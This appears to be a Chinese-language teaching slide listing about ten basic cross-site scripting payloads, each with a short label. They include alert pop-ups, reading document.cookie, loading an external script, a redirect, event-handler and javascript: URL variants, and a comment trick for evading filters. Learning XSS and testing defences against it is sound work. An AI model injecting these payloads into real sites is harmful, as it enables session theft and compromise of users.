

# 1 XSS长什么样子
<script>alert(‘XSS')</script> 最普通的xss代码
<script>alert(document.cookie);</script> 获取cookie
<img src="javascript:alert('XSS')"> img链接地址xss
<script src="ls.js"> <script> 外部调用攻击代码ls.js
<script>alert/*注释了把*/('xss')</script> 注释方法防止过滤
<img src="" onerror=alert("xss")> 加载图像失败执行
<iframe onload=alert(‘XSS')> 框架
<script>location='123.com';</script> 跳转某页面
body{background-image:url(javascript:alert(“xss”))} 在css样式
<a href="javascript:alert('XSS')">XSS</a> a链接的xss